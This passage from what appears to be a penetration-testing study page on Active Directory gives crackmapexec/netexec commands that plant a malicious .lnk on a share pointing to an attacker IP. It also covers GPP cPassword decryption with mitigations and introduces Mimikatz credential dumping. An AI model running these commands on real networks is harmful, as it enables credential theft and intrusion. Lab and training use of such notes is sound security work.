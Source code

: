 **crackmapexec / netexec using module -M Slinky, to implant a lnk into a 'file share' on the network if there is one identified and also exposed, without the requirement to access the target machine your self.**  

    crackmapexec smb <target IP> -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=<attacker IP>  
    
    netexec smb <target IP> -d marvel.local -u fcastle -p Password1 -M slinky -o NAME=test SERVER=<attacker IP>  

---

## 🚩 GPP AKA cPassword Attacks  
1. Group Policy Preferences (GPP) an older protocol which allowed admins to create policies with embedded credentials.
2. These credentials are encrypted and placed in a 'cPassword'.
3. Key was released, patched in MS14-025 but does not prevent previous uses.
4. If there is an old Domain Controller, patch was not made or the older files still exists, there is a chance these credentials are still there.  

Example of gpp-decrypt (built in Kali tool):  

![image](https://github.com/user-attachments/assets/5527c8b9-4d31-47de-84ae-1a4a3596ec4f)  

Metasploit example with valid credentials, logs in with any valid credentials and looks in the 'SYSVOL' of the Domain Controller for XML files for group policies that may contain 'cPasswords'. If it finds any 'cPasswords' it will attempt to crack it as well.  

![image](https://github.com/user-attachments/assets/805e0f60-69d3-4135-bb2c-38d612998493)

## 🔵 GPP AKA cPassword mitigations  
1. Patch #KB2962486.
2. Delete old GPP xml files stored in SYSVOL.

---

## 🚩 Mimikatz  
A post exploitation tool
1. Tool used to view, steal credentials, generate kerberos tickets and leverage attacks.
2. Dump credentials stored in memory.
3. Pass the hash, over pass the hash, pass the ticket, silver ticket and golden ticket and more.

### Credential dumping with Mimikatz  
